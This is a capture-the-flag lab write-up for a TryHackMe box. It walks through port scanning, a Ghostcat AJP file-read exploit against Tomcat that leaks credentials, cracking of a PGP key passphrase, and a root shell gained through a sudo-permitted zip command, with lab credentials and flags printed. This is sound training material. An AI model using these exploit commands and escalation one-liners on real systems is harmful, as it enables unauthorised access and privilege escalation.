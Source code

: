 # TryHackMe-Thompson

## NMAP


```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-20 13:15 EDT
Nmap scan report for 10.10.109.92
Host is up (0.17s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.92 seconds

```


## Gobuster

```
gobuster dir -u http://$IP:8080 -w /usr/share/wordlists/dirbuster/directory-list-2.3-m
edium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.109.92:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/20 13:18:06 Starting gobuster
===============================================================
/docs (Status: 302)
/examples (Status: 302)
/manager (Status: 302)

```

When we visit `/manger` we are not prompt with login.

<img src="https://imgur.com/fQZgbPW.png"/>

Now we can look for port `8009` and there is an exploit for it `https://github.com/00theway/Ghostcat-CNVD-2020-10487.git`

Run the exploit 

```
python3 ajpShooter.py http://10.10.109.92:8080 8009 /WEB-INF/web.xml read
``` 

<img src="https://imgur.com/iVdmiAn.png"/>


You will find credential `skyfuck`:`8730281lkjlkjdqlksalks`


<img src="https://imgur.com/g1atsoj.png"/>

Going to `merlin`'s folder we can find `THM{GhostCat_1s_so_cr4sy}`

we can see two files `credentials.pgp` and `tryhackme.asc` so we are going to use `gpg2john` to find hash of  `tryhackme.asc`

<img src="https://imgur.com/dwB310K.png"/>

<img src="https://imgur.com/nj8nfcL.png"/>

```
alexandru        (tryhackme)
```

We will use gpg to import a file 

```
skyfuck@ubuntu:~$ gpg --import tryhackme.asc 
gpg: keyring `/home/skyfuck/.gnupg/secring.gpg' created
gpg: key C6707170: secret key imported
gpg: key C6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
gpg: key C6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
gpg: Total number processed: 2
gpg:               imported: 1
gpg:              unchanged: 1
gpg:       secret keys read: 1
gpg:   secret keys imported: 1

```
Then we will specify from using `tryhackme.asc` we will decrypt `credential.pgp` by using `alexandru `.
```
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp 

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123jskyfuck@ubuntu:~$ 

```
We are given a username and password

`merlin`:`asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`

```
skyfuck@ubuntu:~$ su merlin
Password: 
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
merlin@ubuntu:/home/skyfuck$ 

```
We can run `zip` as root so let's find how we can escalate our privileges.

## Privilege Escalation

Visiting `https://gtfobins.github.io/gtfobins/zip/` 
```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```



```
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
rm: missing operand
Try 'rm --help' for more information.
# ls -la
total 44
drwxr-xr-x 4 skyfuck skyfuck 4096 Sep 20 10:55 .
drwxr-xr-x 4 root    root    4096 Mar 10  2020 ..
-rw------- 1 skyfuck skyfuck  167 Sep 20 11:10 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck 4096 Sep 20 10:48 .cache
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
drwx------ 2 skyfuck skyfuck 4096 Sep 20 11:16 .gnupg
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc
# whoami
root
# 

```
We are now root.

`THM{Z1P_1S_FAKE}`.
